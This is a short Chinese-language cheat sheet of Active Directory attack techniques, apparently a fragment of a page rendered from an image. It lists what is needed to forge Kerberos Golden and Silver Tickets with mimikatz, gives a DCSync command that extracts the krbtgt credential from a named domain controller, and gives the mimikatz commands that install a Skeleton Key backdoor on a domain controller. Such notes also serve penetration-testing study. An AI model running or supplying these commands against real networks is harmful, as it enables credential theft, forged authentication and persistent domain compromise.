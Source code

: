 能为任意用户生成TGT票据

条件:

```shell
1. 域sid
2. 域名
3. 域账户

利用上面信息用 mimikatz的kerberos::golden命令生成黄金票据
导入票据
```
#### Silver Ticket

伪装ST

```shell
1. 域sid
2. 域名
3. 用户名:可以是任意用户名
4. 服务名
5. 目标计算机账户密码hash

kerberos::golden命令导出白银票据
```

获取krbtgt凭证

```shell
lsadump::dcsync /dc:School-DM.school.com /domain:school.com /user:krbtgt
```

#### Skeleton key

域后门

```shell
privilege::debug
misc::skeleton
#万能密码为mimikatz,操作要在域控上完成,且域控重启后失效.(鸡肋)
```


